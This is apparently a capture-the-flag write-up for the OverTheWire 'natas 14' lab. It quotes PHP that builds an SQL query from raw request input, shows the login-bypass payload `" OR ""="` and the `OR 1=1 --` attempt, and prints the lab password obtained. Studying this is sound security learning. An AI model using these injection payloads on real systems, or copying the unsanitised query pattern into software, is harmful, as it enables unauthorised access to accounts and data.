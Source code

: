 # natas 14

```sql
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```

Realising that this was a SQL injection exploit, I of course went to the `OR 1=1 -- `  idea *{a very well known SQL injection, most it exploits the fact the some strings are not well protected and using some knowledge of SQL you can essentially make bypass checking and just evaluate true.}*, but that kind of just hang the webpage.

I honestly don't quite understand why it hangs the webpage, but I started to look for other solutions. The important one being the "debug" mode that seems to have been included *(this really isn't necessary, it just allows me to see what I'm doing better)*.

```php
if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
} 
```

Since the debug mode requires `$_GET`, it's really just a matter of POSTing it to `?debug=true` instead.

After fiddling with it a while, and noticing that it's not really sanitising its inputs, I came up with this that got me the code.

```php
username=natas15&password=" OR ""="
```

Since that would evaluate to the query as:

```sql
SELECT * from users where username="natas15" and password="" OR ""=""
```

*Technically the `username` doesn't really matter here, considering that `AND` executes before `OR`, meaning that it would be `false OR true` regardless of what I put into `username` or `password`.*


> AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J